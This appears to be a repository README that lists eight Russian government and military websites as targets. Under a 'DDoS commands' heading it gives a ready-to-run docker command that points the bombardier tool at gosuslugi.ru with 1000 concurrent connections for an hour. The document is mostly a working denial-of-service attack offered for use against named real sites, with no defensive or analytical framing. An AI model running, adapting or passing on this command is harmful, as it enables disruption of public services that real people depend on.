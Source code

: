 # List of public russian government and military services

https://www.gosuslugi.ru
https://epp.genproc.gov.ru
https://ach.gov.ru
https://www.scrf.gov.ru
https://mil.ru
https://minpromtorg.gov.ru/
https://favt.gov.ru/
https://rkn.gov.ru/

# DDoS commands

```
docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
```
